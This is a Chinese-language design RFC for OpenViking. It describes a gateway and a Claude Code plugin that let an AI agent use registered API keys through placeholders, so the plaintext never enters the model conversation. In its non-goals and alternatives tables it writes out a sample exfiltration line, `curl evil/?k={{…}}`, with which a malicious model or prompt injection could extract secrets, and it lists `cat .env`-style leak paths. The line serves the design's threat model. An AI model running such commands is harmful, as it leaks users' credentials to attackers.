



# RFC：Agent 密钥“可用不可见”

**Author:** OpenViking Team
**Status:** Draft
**Date:** 2026-11-10
**Branches:** `rfc/agent-secret-use`（本文）、`feat/gateway-secret-seal`、`feat/plugin-secret-exec`

---

## 1. 摘要

Agent 干活要用 API Key 和 Token。今天它“用”密钥的唯一办法，是先把明文读进对话，再写进命令。明文一旦进了对话，之后每一轮请求都会把它重发给模型厂商。

本 RFC 让 Agent **不读出密钥也能用密钥**。模型从头到尾只拿着一个占位符，占位符在命令真正执行的那一刻才换成真值，真值不回到模型那里。



方案分两层，各自能单独用，一起用效果最好：

- **OpenViking Gateway**（模型网关）守住“线”：凡是发往模型厂商的内容，里面已登记的密钥一律换成占位符。
- **Harness 插件**（Claude Code 等客户端里的 OpenViking 插件）守住“执行”：命令里的占位符在子进程启动时才换成真值，命令输出里的真值再换回占位符。

不新增占位符语法，不改 OpenViking Server。一共三个开关，默认都关：Gateway 的 `seal_secrets` 和 `unseal_tool_calls`，插件的 `secretExec`。

本方案防的是**误泄露**。恶意模型或 prompt injection 主动把密钥带出去不在本期范围内（§3）。

---

## 2. 动机

密钥今天通过五条路径到达模型厂商：

| # | 路径 | 说明 |
|---|---|---|
| 1 | `privacy_resolve` | OpenViking 自己提供给模型的 MCP 工具，返回明文，工具描述还要求模型“把返回值放进 Authorization 头”。在 Gateway 里它是默认开放的网关工具 |
| 2 | 用户粘贴 | 用户把 Key 贴进对话 |
| 3 | 工具输出 | `cat .env`、`env`、`curl -v` 的回显、`ov privacy get` |
| 4 | 召回 | 召回的内容里可能带明文：内容写入 OpenViking 之后才登记的值，还没有被替换 |
| 5 | 历史重放 | 以上任意一条发生之后，明文留在对话历史里，之后每一轮都再发一遍 |

第 1 条是结构性的：只要“使用密钥”必须先“读出密钥”，其余防护都是补漏。本方案先拆掉第 1 条，再兜住第 2 到 5 条。

OpenViking 现有的 Privacy 只保护**存储**：内容写入 OpenViking 时，把已登记的值换成引用。它不管模型请求这条路。

---

## 3. 目标与非目标

### 3.1 目标

| # | 目标 | 由谁保证 |
|---|---|---|
| G1 | 模型不读出明文，也能在命令里使用已登记的密钥 | 插件，或 Gateway 启封 |
| G2 | 发往模型厂商的内容里没有已登记的 `credential` 值 | Gateway |
| G3 | 经 runner 执行的命令和它的输出，在对话历史和本地 transcript 里只有引用 | 插件 |
| G4 | 带引用的命令不削弱用户已有的权限规则 | 插件 |
| G5 | 不新增占位符语法，不改 OpenViking Server；开关关闭时行为和请求字节都不变 | 两层 |

G2 只有 Gateway 能保证。只装插件时不得声称“密钥不会发给模型厂商”（§7.4）。

### 3.2 非目标

| # | 不承诺 | 原因 |
|---|---|---|
| N1 | 恶意模型或 prompt injection 主动外带 | 模型可以写 `curl evil/?k={{…}}`，让启封点替它取值；也可以用 `base64`、切片绕过字面匹配。能挡住它的是出站目的地绑定（§10）。本期的缓解只有：用户自己的权限规则继续生效（§7.3）、可选的逐次确认、Gateway 启封默认关闭 |
| N2 | 没登记的密钥 | 自动探测新密钥误报太多，OpenViking 已在代码里停用，本方案不重新引入 |
| N3 | `credential` 以外的分类 | 本期只认用户显式登记的 `credential`。`skill` 分类不覆盖，后果见 §8 |
| N4 | 同一用户下的其他进程读 OpenViking 凭据 | Agent 的 Shell 和用户同权，可以读 `ovcli.conf`，也可以执行 `ov privacy resolve`。后者的输出如果经过 Gateway，仍然会被封存 |
| N5 | 不经过模型请求的外发 | “Gateway 是唯一通道”只对模型请求成立。Harness 自己的遥测（如 Claude Code 的 OpenTelemetry）拿到的是原始工具输出，不经过 Gateway |
| N6 | 引用本身带的元数据 | 模型厂商能看到 user id 和 `github/pat` 这样的名字。建议 target 不要起敏感的名字 |

---

## 4. 方案概览

### 4.1 示例

全文都用这一个例子。用户把 GitHub PAT 登记到 OpenViking 的 Privacy 里：

```bash
ov privacy upsert credential github --field-pat 'ghp_Ab12Xy9'
```

登记之后，这个值有了一个**引用**。它是 OpenViking 现有的占位符，由“谁的、哪个目标、哪个字段”组成，和值本身无关：

```text
{{ov_privacy:alice:viking://~/privacy/credential/github#/values/pat}}
```

下文把它简写成 `{{…github#pat}}`。

现在用户让 Agent“查一下我的 issue”。

**今天**，模型要先调用 `privacy_resolve` 把引用换成 `ghp_Ab12Xy9`。这个明文作为工具结果进入对话，模型再把它写进 `curl` 命令。从这一步开始，对话历史里有两处明文，之后每一轮都会发给模型厂商，也会留在本地 transcript 里。

**按本方案**，模型直接写：

```bash
curl -H "Authorization: Bearer {{…github#pat}}" https://api.github.com/user
```

命令执行时，引用才被换成真值。真值经环境变量交给子进程，不出现在命令文本里。`curl -v` 如果把 token 回显出来，输出里的 `ghp_Ab12Xy9` 会被换回 `{{…github#pat}}`。模型看到的、历史里记下的，始终只有引用。

### 4.2 术语

| 术语 | 含义 |
|---|---|
| **引用** | 上面那个占位符。本期只认 `credential` 分类（用户显式登记的个人密钥） |
| **封存** | 把已登记的值换成引用。做多少次结果都一样，可以在任何地方做 |
| **启封** | 把引用换成值。整条链路上只做一次 |
| **执行边界** | 工具真正开始执行的地方：对 Shell 命令来说，就是子进程启动的那一刻 |
| **对照表（Catalog）** | 一个用户的“值 ↔ 引用”双向表，只在进程内存里，随时可以从 Privacy 重建 |

### 4.3 两条不变量

把系统看成两个平面。**引用面**是模型厂商、对话历史、记忆、日志，这里只应该出现引用。**明文面**只有工具子进程。

> **I1（封存）** 发往模型厂商的内容里不得出现已登记的值。
>
> **I2（启封）** 引用只在执行边界换成值；边界吐出来的内容必须重新封存。


Gateway 是模型请求到厂商的唯一通道，所以它能严格执行 I1。插件碰不到这条通道，但它在命令真正执行的地方，所以它能严格执行 I2。

只有 Gateway、没有插件时，Gateway 也可以替客户端启封（§6.5）。这是对 I2 的有意放宽：真值比执行边界早一步出现，会落进本地 transcript。I1 不受影响。

### 4.4 封存与启封不对称

- **封存做多了没有坏处。** Gateway 进门封一次、出门再封一次、runner 的输出再封一次，结果相同。所以可以放心地到处封，多一层只会更安全。
- **启封做错一次就是泄露。** 所以整条链路只留一个启封点，由离执行最近的一层来做：有插件时是 runner，只有 Gateway 时是网关下发的工具调用。

由此得到一个重要性质：**I1 不依赖两层配合得对不对**，两层因此不需要互相协商。即使启封点选错了，明文也只是多落在本地一处，下一轮请求经过 Gateway 时仍然会被封存。

---

## 5. 使用方式与行为变化

### 5.1 三个开关

| 开关 | 位置 | 默认 | 行为 |
|---|---|---|---|
| `seal_secrets` | Gateway 的 Context Profile | 关 | 封存。模型和客户端都只看到引用 |
| `unseal_tool_calls` | Gateway 的 Context Profile | 关 | 在下发给客户端的工具调用参数里启封。必须同时开 `seal_secrets` |
| `secretExec` | 插件配置 | 关 | 带引用的 Bash 命令交给 runner 执行；拦截 `privacy_resolve` |

新建的 Profile 同样默认不开 `seal_secrets`。打开它意味着每个用户每 30 秒读一次 Privacy，而且 Privacy 不可用时请求会失败，这个代价应由部署方主动选择。

### 5.2 部署组合



怎么选：

- **只想保证“不发给模型厂商”**：开 `seal_secrets`。
- **没有插件，又想让模型写的引用能用**：再开 `unseal_tool_calls`。代价是启封后的工具参数会留在本地 transcript 里，这是这个模式固有的。
- **用 Claude Code**：开 `seal_secrets`，再装插件并打开 `secretExec`。这是推荐组合。

推荐组合里两层互不干扰：Gateway 只封存，runner 输出的已经是引用，经过 Gateway 时无需再处理。

**不要把 `unseal_tool_calls` 和插件一起用。** Gateway 识别到 OpenViking 插件在场时会让位：这个会话它不注入、不跑网关工具，也不启封。识别靠的是请求头 `X-OpenViking-Plugin`，或请求正文里插件注入的 `<openviking-context>` 标签。于是：

- 插件在场但没开 `secretExec`：Gateway 让位，runner 也不工作，模型写的引用会原样执行并失败。解决办法是打开 `secretExec`。
- 会话的前几轮没有召回内容时，Gateway 可能还没识别到插件，会先启封。这不影响“不发给模型厂商”，只是启封后的参数会落进本地 transcript。

### 5.3 打开之后会变的行为

开关都关时没有任何变化。打开后：

| 开关 | 变化 | 详见 |
|---|---|---|
| `seal_secrets` | 需要 OpenViking Server 0.5.2 以上；更低版本返回 503，网关日志里记下原因 | §6.6 |
| `seal_secrets` | 对照表取不到且没有可用缓存时返回 503，不发给模型 | §6.6 |
| `seal_secrets` | 用户登记了 credential 时，网关无法安全解析的 JSON 请求体返回 400，压缩的请求体返回 415。这类请求今天按原字节透传 | §6.6 |
| `seal_secrets` | 网关工具里不再提供 `privacy_resolve` | §6.7 |
| `seal_secrets` | 会话中途开启、新增或轮换密钥时，历史被改写一次，造成一次前缀缓存未命中 | §8 |
| `unseal_tool_calls` | 带工具定义的请求都走 tool loop，工具调用参数不再一段段流式下发，要等这一轮收齐才发出 | §6.5 |
| `unseal_tool_calls` | 启封对客户端的所有工具生效，包括会把参数发往远端的 MCP 工具 | §6.5 |
| `secretExec` | runner 需要用户在权限规则里放行一次，例如 `Bash(*/node */scripts/secret-run.mjs *)` | §7.3 |
| `secretExec` | 模型调用 `privacy_resolve` 会被拒绝 | §7.1 |
| `secretExec` | 经 runner 执行的命令里，`cd` 不延续到后续命令，Shell 的 alias 和函数不可用 | §8 |

---

## 6. 详细设计：Gateway

### 6.1 背景与总体做法

后文要用到几个 Gateway 现有的概念：

- **部署位置。** Gateway 由用户自己或所在组织部署，和 OpenViking Server 同属可信域。图里的“本地 / 可信域”指的就是这个范围。
- **kernel。** Gateway 的核心，负责识别对话、召回记忆、回放、压缩和捕获。它靠 **anchor**（对话历史的哈希链）判断“这是不是同一段对话”，所以对历史的字节很敏感。
- **回放。** 客户端的历史里没有 Gateway 补进去的内容（比如召回的记忆），Gateway 自己记下来，每一轮原样放回请求里。
- **网关工具与隐藏续轮。** Gateway 可以向模型提供一批由它自己执行的 OpenViking 工具。模型调用这些工具时，Gateway 执行完再向模型发一轮请求，客户端看不到这一来一回。
- **tool loop。** 处理上面这种回复的那段逻辑。它把模型发给客户端的工具调用整段收齐再下发。
- **Context Profile。** 每个网关密钥绑定的一份策略配置（代码里叫 `Policy`），在 Studio（管理界面）里编辑。

本方案几乎不改 kernel（只给它多传一个可选的封存函数，见 §6.3），而是在它外面包一层壳：**请求一进来先封存，回复最后才启封，kernel 看到的客户端内容都是引用形态**。anchor、捕获、压缩摘要因此都建立在引用形态上。



### 6.2 开关的语义

`seal_secrets` 和 `unseal_tool_calls` 是 Context Profile 的两个布尔字段。它们有两点和其他 Profile 字段不同：

- **不得被 `X-OpenViking-Context` 覆盖。** 其他字段可以由客户端用这个请求头按对话覆盖；安全开关不行，否则客户端发一个请求头就能把它关掉。
- **必须读当前生效的 Profile。** 其他字段在会话创建时冻结；安全开关必须对旧会话也立即生效。

### 6.3 请求方向：一个入站封存点，三个出站终扫点

| 点 | 位置 | 兜住什么 |
|---|---|---|
| ② 入站封存 | 路由之后、kernel 之前 | 客户端带来的明文：用户粘贴、工具输出、启封后又被客户端放回历史的工具参数 |
| ④ 出站终扫（主请求） | 发给模型之前 | ② 之后才进入请求的内容：召回文本、开关打开之前留下的回放记录 |
| ④ 出站终扫（摘要） | 压缩摘要请求发出之前 | 同上 |
| ④ 出站终扫（续轮） | 隐藏续轮发出之前 | 同上，加上网关工具的结果 |

到模型上游的发送点一共只有这三个，每一个都必须终扫。

出站终扫的命中数单独记进请求日志（`secrets_sealed_egress`）。它不为零，说明 OpenViking 自己注入的内容里带了明文，这是 §2 第 4 条路径的直接观测信号。

**本地存储的范围。** 入站封存保证客户端带来的明文不会落进 Gateway 的本地存储。Gateway 自己产生的内容（召回文本、网关工具的结果、压缩和新窗口的替换文本）在写入本地记录之前也先封存一遍，所以新写入的记录同样是引用形态。出站终扫因此是第二道：它兜住开关打开之前留下的记录，也兜住将来任何一条忘了先封存的路径。

### 6.4 封存的匹配规则

封存是一个与协议无关的函数：递归走一遍请求 JSON 里的字符串值，用对照表做最长优先的替换。没有命中时返回原对象，请求字节一个不变。

对照表的规则：

- 只取 `credential` 分类、当前版本、顶层的字符串字段，长度不少于 6 个字符。“字符串、不少于 6 个字符、当前版本”这几条沿用 Server 端替换已登记值的规则；Server 会遍历所有分类，这里只取 `credential`。
- 每个值同时登记原文和 JSON 转义后的形态，因为工具参数经常是“字符串里的 JSON”。转义形态取常见编码器的几种写法：最小转义、纯 ASCII（`\uXXXX`）、把 `/` 写成 `\/`、把 `<>&` 写成 `<` 这一类。
- 同一个值登记在多个字段时，取字典序最小的引用。Server 端遇到这种情况会拒绝写入；网关不能拒绝请求，所以选一个确定的。
- 表里除了“值 → 引用”，还有“**已知引用 → 它自己**”。

最后一条值得解释。假设 target 名 `github` 恰好也是某个登记值，朴素替换会把引用内部的 `github` 再换一次，把引用弄坏。把已知引用整体登记进表，它就会作为一个整体被命中并原样保留。反过来，伪造的占位符不在表里，所以包不住明文：

```text
对照表:  ghp_Ab12Xy9  →  {{…github#pat}}
         {{…github#pat}}  →  {{…github#pat}}      （已知引用，原样保留）

输入                                   封存后
token is ghp_Ab12Xy9                   token is {{…github#pat}}
"{\"token\":\"ghp_Ab12Xy9\"}"          "{\"token\":\"{{…github#pat}}\"}"
{{…github#pat}}                        {{…github#pat}}
{{ov_privacy:x ghp_Ab12Xy9}}           {{ov_privacy:x {{…github#pat}}}}   （伪造的占位符不受保护）
```

封存不碰的内容只有这几类：带签名的 `thinking`、`redacted_thinking`、`reasoning` 块（改了会让厂商的签名校验失败）；`signature`、`encrypted_content` 字段；整个字符串就是一个 `data:` URI 的值，以及 `data` 字段里的长 base64 串。工具调用参数和工具结果的内部不得豁免，哪怕里面的字段也叫 `signature` 或 `data`。

### 6.5 回复方向：启封

`unseal_tool_calls` 打开时，模型写在工具调用参数里的引用，会在发给客户端之前换成真值，客户端直接就能执行。这是没有插件时让引用“能用”的办法。

启封的范围收到最小：

- **只进工具调用参数。** 助手正文和 thinking 不得启封，密钥不需要给人看。
- **只动发给客户端的那一份副本。** kernel 记录的 anchor 和捕获内容仍是引用形态。
- **只认精确语法，只认调用者自己的 `credential`。** 写错的引用、别人的引用都保持原样，工具调用自然失败。不做模糊匹配。写法不规范的引用（比如花括号里多了空格）也不启封：它下一轮会被封回规范写法，和 kernel 记录的字节对不上。
- **只启封会被封存的值。** 短于 6 个字符的值不在对照表里，所以也不启封；否则下一轮客户端带回来的明文封不回去，会原样发给模型。
- 模型厂商侧执行的工具（如 `server_tool_use`）不启封，它们已经在上游执行过了。

要注意的是，启封对客户端的**所有**工具生效，不只是本地 Shell。Gateway 不知道哪个工具会把参数发到哪里，包括会把参数发往远端的 MCP 工具。

实现上有两点：

- **带工具定义的请求都走 tool loop。** 今天只有开了网关工具或召回提示的请求才经过 tool loop，其余回复原样透传，没有改写的机会。打开 `unseal_tool_calls` 后，带工具定义的请求都走 tool loop（多候选、结构化输出的请求除外）；不带工具定义的请求不会产生工具调用，照旧透传。代价是工具调用参数不再一段段流式下发，要等这一轮收齐才发出。
- **只挂三处。** 下发工具调用的事件、流式结束事件里带的完整回复、非流式的最终回复。

两个细节：

- **转义。** `arguments`、`partial_json` 这类“字符串里的 JSON”要写入 JSON 转义后的值；对象形式的 `input` 和自定义工具的纯文本 `input` 写入原值。
- **Responses 协议。** 一个工具调用会以多个事件回放：若干段 `…arguments.delta`、带完整参数的 `…arguments.done` 和 `output_item.done`，结束事件里还有一份完整回复。这几处都要启封。一个引用可能被切在两段 delta 之间，所以命中引用的调用把完整参数放进第一段 delta，其余置空；没有引用的调用字节不变。

**下一轮怎么续上。** 客户端执行完工具，会把带真值的工具调用放回历史再发过来。② 把它封回同一个引用，和上一轮 kernel 记录的字节一致，anchor 对得上，会话照常延续。这也是入站封存必须在 kernel 之前的原因。

### 6.6 对照表的来源与失败处理

Gateway 不存密钥。它用**调用者自己的 OpenViking Key** 读现有的 Privacy API：

1. 每 30 秒至多一次 `GET /api/v1/privacy-configs/tree?category=credential`，拿到所有 target。
2. 对每个 target 调 `GET /api/v1/privacy-configs/credential/{target}` 取当前值。不按版本号跳过：target 删除后重建，版本号会从 1 重新算。

| 情况 | 行为 |
|---|---|
| 刷新失败，但手里的对照表不超过 600 秒 | 继续用 |
| 刷新失败，手里没有可用的对照表 | 返回 503，不发给模型 |
| 用户没有登记任何 credential | 正常放行。这和“读取失败”不是一回事 |
| 请求体是 JSON 但网关无法安全解析，或请求体被压缩 | 400 / 415 |
| OpenViking Server 低于 0.5.2（没有 credential 目录接口） | 等同读取失败：503，网关日志里记下原因 |
| 非 JSON 的请求体（如文件上传） | 透传，列入已知限制 |

原则是 fail-closed：不确定有没有明文时，必须拒绝。

第 4 行是一个行为变化，只在用户登记了 credential 时发生。“无法安全解析”除了 JSON 本身非法，还包括含超大整数或重复键的请求体。这类请求今天会按原字节透传；打开 `seal_secrets` 后会被拒绝。

### 6.7 其他收口

- `seal_secrets` 打开时，网关工具里不再提供 `privacy_resolve`。旧会话里已经冻结的工具目录由续轮终扫兜底：结果发出去之前会被封存，模型拿回的还是引用。
- `unseal_tool_calls` 打开时，会话开头给模型的说明里加一句用法：把引用原样写进工具参数，不要索取明文。这句说明随会话的第一轮生成并冻结，所以只对新会话生效。
- 请求日志只多几个计数（封存数、启封数），不得记值，也不记引用。
- Studio 的 Profile 编辑页加这两个开关。这是必须做的：Studio 保存时只保留它认识的字段，不加的话点一次保存，开关就被静默重置了。

---

## 7. 详细设计：插件

插件碰不到“线”，但它在命令真正执行的地方。第一期实现 Claude Code，公共逻辑放进 `examples/memory-plugin-shared/lib`，其他 Harness 以后只需要加一层薄薄的适配。


### 7.1 Hook：只改写，不碰明文

Claude Code 允许插件在工具执行前改写工具输入（PreToolUse hook）。我们的 hook 只做一件事：发现 Bash 命令里有引用，就把整条命令交给 runner 去跑。

```text
改写前   curl -H "Authorization: Bearer {{…github#pat}}" https://api.github.com/user

改写后   false && curl -H "Authorization: Bearer {{…github#pat}}" https://api.github.com/user
         node <plugin>/scripts/secret-run.mjs 'curl -H "Authorization: Bearer {{…github#pat}}" https://api.github.com/user'
```

第二行是 runner 调用。第一行不会执行，它的作用是让权限规则仍能看到原命令（§7.3）。

改写后的命令里**仍然只有引用**。hook 不得联网、不得取值，所以：

- transcript、权限提示、OpenViking 的自动捕获看到的都是引用；
- hook 出任何错，命令里还是引用，调用失败，但不泄露；
- 不含引用的命令完全不受影响。

`secretExec` 可以在用户自己的配置里打开（`ovcli.conf` 的插件段，或环境变量 `OPENVIKING_SECRET_EXEC`），但不得由仓库里的配置文件打开：一个提交进仓库的文件不应该能开启密钥放行。

同一个开关下还做两件事：

- **拦截 `privacy_resolve`。** 模型调用它时返回拒绝，理由里告诉模型把引用直接写进命令。这是 §2 第 1 条路径在插件侧的收口。
- **会话开始时告诉模型怎么用。**

### 7.2 Runner：用环境变量代入，而不是拼文本

runner 拿到的是带引用的原始命令。它依次做四件事：

1. **取值。** 每个引用调一次 `POST /api/v1/privacy-configs/resolve`，用用户自己的 Key，引用归属由 Server 校验。任何一个取不到，runner 必须以非零码退出，**不执行命令**，错误信息里只有引用。
2. **改写。** 把每个引用换成对环境变量的展开。
3. **执行。** 用 Claude Code 的 Bash 工具会选的那个 Shell 跑改写后的脚本，真值通过环境变量 `OV_SECRET_0`、`OV_SECRET_1`… 传进去。
4. **输出再封存。** stdout 和 stderr 里出现的真值换回引用。

第 2 步为什么不直接把真值拼进命令？因为真值里可能有引号、`$`、空格，拼进 Shell 文本会被当成语法解析，轻则命令坏掉，重则注入。换成变量展开就没有这个问题，只是写法要看引用所在的引号上下文：

| 引用所在的位置 | 改写为 |
|---|---|
| 没加引号 | `"${OV_SECRET_n}"` |
| 双引号里 | `${OV_SECRET_n}` |
| 单引号里 | `'"${OV_SECRET_n}"'`（先闭合单引号，展开，再重新打开） |
| `$'...'` 里 | `'"${OV_SECRET_n}"$'` |
| heredoc，定界符不带引号 | `${OV_SECRET_n}` |
| heredoc，定界符带引号 | 拒绝执行，提示改用不带引号的定界符 |

这个设计的好处是**扫描器判断错了也不会变成注入**：Shell 不会把变量展开的结果再当成语法解析。最坏的情况是命令拿到一个没展开的字面量，或者值被拆成几个参数。后一种情况下命令通常会失败，但拆开后的片段遮罩匹配不到，如果命令把它们打印出来，会以明文回到模型（有 Gateway 时仍会被封存，只要片段没被改写）。扫描器因此可以写得很小，但不是随便写。

这个保证有两个边界，和手写 `$VAR` 时完全一样：

- **只在这一层 Shell 成立。** 引用如果写在交给另一个解释器的字符串里（`bash -c '…'`、`ssh host "…"`、`eval`），真值会成为那个解释器的输入，由它再解析一次。
- **展开之后真值会进入子进程的参数。** `curl -H "Authorization: Bearer ${OV_SECRET_0}"` 展开后，token 在 curl 的命令行参数里，同一台机器上的其他进程看得到；环境变量也会被后代进程继承。真值不进入的是命令文本和对话。

第 4 步有三点：

- 换回的是**引用**，而不是 `[REDACTED]`。输出因此留在引用面里，和 Gateway 封存的结果字节一致，模型也能看出是哪个密钥被回显了。
- 输出是一块一块到的，一个值可能被切在两块之间。runner 只在“这一块的结尾可能是某个值的开头”时才暂扣那一小段，其他情况零延迟。
- 没有“关闭遮罩”的选项。

遮罩必须在 runner 里做，不能依赖工具执行后的 hook，因为后置 hook 靠不住：Claude Code 在输出形状不符时会静默回退到原始输出，后台命令的输出走文件；Codex 只能用一段拦截理由整体替换模型看到的结果，运行中的分段输出不经过它；Cursor 不能改写 Shell 输出。各 Harness 的能力对照见附录 B。

### 7.3 权限：用户的规则继续生效

把命令包进 runner 不得削弱用户的权限规则。改写后：

> 带引用的命令需要的权限 = 原命令本来需要的权限 + runner 的权限。

| 用户的规则 | 结果 |
|---|---|
| 原命令的每一段都已放行，runner 也已放行 | 直接执行，不打扰 |
| 原命令有一段命中拒绝规则 | 拒绝，bypass 模式下也拒绝 |
| 原命令有一段没有放行 | 走正常的审批 |
| runner 没有放行 | 走正常的审批 |
| 命令里有 hook 切不准的结构，或模型自己在命令里写了 runner | hook 返回 `ask`，由人确认 |

runner 需要用户放行一次，例如 `Bash(*/node */scripts/secret-run.mjs *)`。放行 runner 是安全的：它不意味着放行任意内层命令，这条规则也只有 hook 生成的命令用得上。

hook 自己不得返回 `allow`。想让每一次密钥使用都经人确认，设 `secretExecApproval: ask`。

Claude Code 上这是靠改写结果的第一行（守卫行）实现的，机制、切分规则和实测结果见附录 A。

### 7.4 插件层管不到的

本期插件只覆盖“模型主动使用引用”这一条路径。下面三类本期不处理：

| 内容 | 能不能做 | 说明 |
|---|---|---|
| 用户粘贴的明文 | Codex、Cursor 不能；Claude Code 能 | Codex、Cursor 的 hook 对用户输入只能拦截。Claude Code 的普通 hook 也一样，但它的 mods（进程内的 hook 模块）可以改写用户输入 |
| 其他工具的输出（`cat .env` 等） | Claude Code 能，其他有限 | 见 §7.2 末尾 |
| 召回内容 | 都能 | 这是插件自己注入的文本，可以在注入前封存 |

能做而没做的原因相同：插件要在每次提交时持有全部密钥值才能识别，而且 Claude Code 的改写接口出错时默认放行，需要自己兜成 fail-closed。见 §10“插件侧封存”。

所以**本期只装插件不能说“密钥不会发给模型厂商”**。完整的 I1 需要 Gateway。

---

## 8. 已知限制

| 限制 | 影响 |
|---|---|
| 只匹配字面值和它的 JSON 转义 | Base64、URL 编码、切片后的值会漏 |
| 短于 6 个字符的值不封存，也不启封 | 登记一个短 PIN 不会得到保护，写它的引用也不会被代入 |
| 不覆盖 `skill` 分类 | skill 里的值在存储里是引用，但读取 `SKILL.md` 时 Server 会把引用还原成当前值。这些值不在对照表里，模型读到的明文会发给模型厂商，除非同一个值也登记成了 `credential`。`skill` 的值来自 LLM 抽取，精度不如用户显式登记的 `credential`，所以本期不纳入封存 |
| 两个登记值首尾重叠且恰好连写 | 替换是单趟最长优先，靠后那个值没被吃掉的部分会留下 |
| Responses 的内置工具调用（如 `local_shell_call`）、Chat 的旧式 `function_call` | 不启封。引用保持原样，调用失败但不泄露 |
| 只匹配当前版本 | 轮换前的旧值如果还留在历史里，会明文上行。OpenViking 的轮换本身也不会撤销第三方的旧密钥 |
| 带签名的 thinking 不改写 | 开关打开之前就进了签名块的值仍会上行 |
| 会话中途开启、新增或轮换密钥 | 历史被改写一次，造成一次前缀缓存未命中 |
| Responses 使用服务端状态（`previous_response_id`） | 增量内容仍被封存，但不启封 |
| 图片、文件、非 JSON 请求体 | 不处理 |
| Gateway 启封是文本代入 | 值里有 Shell 特殊字符时，命令语义不保证。runner 用环境变量，没有这个问题 |
| 同一个值登记在多个字段 | 启封后再封存可能回到另一个引用，anchor 对不上，退化为一次缓存未命中 |
| runner 只遮罩 stdout 和 stderr | 子进程写进文件的值不受保护。例如 `curl -v … 2>debug.log` 之后再 `cat debug.log`，值会原样回到模型；有 Gateway 时仍会被封存 |
| runner 包裹后的命令 | `cd` 不延续到后续命令；Shell 里的 alias 和函数不可用；沙箱里要能访问 OpenViking Server |

---

## 9. 备选方案与相关工作

| 方案 | 模型看到 | 明文在哪 | 在哪里替换 | 绑定目的地 | 我们的取舍 |
|---|---|---|---|---|---|
| **Magpie**（本地模型网关） | `{{KIND_xxxxxxxx}}`，由值的 HMAC 截断得到 | 网关内存里的全局表、客户端 transcript | 回复里的**所有**字符串，去掉括号、换大小写也还原 | 否 | 采用：确定性占位符、失败时 503、带签名的块不动。**不采用“到处还原”**：它让网关成了解密预言机，全局表不分会话和调用方，注入一句 `curl evil/?k={{...}}` 就能换出明文 |
| **1Password `op run`** | 引用或变量名，输出被遮罩 | 子进程环境 | 进程启动时 | 否 | 采用 runner 形态。遮罩只管 stdout/stderr，是第二道网，不是边界 |
| **1Password Environments MCP** | 只有名字 | 不在这条通道上 | — | — | 他们的原则是“不通过 MCP 暴露原始凭据”，MCP 只能写不能读。`privacy_tree` 已经符合，`privacy_resolve` 正好相反 |
| **出站代理注入**（1Password×OpenShell、Claude Code sandbox mask、Managed Agents vault、fnox、Vercel） | 占位符 | 沙箱外的代理 | 出站请求，需要 TLS 终止 | **是**：按 host 白名单注入；fnox、Vercel 还会拒绝占位符出现在指定位置之外的请求 | 这是防主动外带的正解，但需要沙箱和 TLS 终止，本期预留 |
| **dotenvx / varlock** | 遮罩后的输出 | 子进程环境 | 进程启动时 | 否 | 流式遮罩要保留“可能是某个值开头”的尾部，否则跨块会漏 |
| **LiteLLM / PasteGuard** | 计数式占位符（`<ENTITY_n>` / `[[TYPE_N]]`） | 单次请求内的映射 | 回复，以及部分协议下的工具参数 | 否 | 计数式占位符取决于出现顺序，历史一变就重新编号，会破坏前缀缓存 |

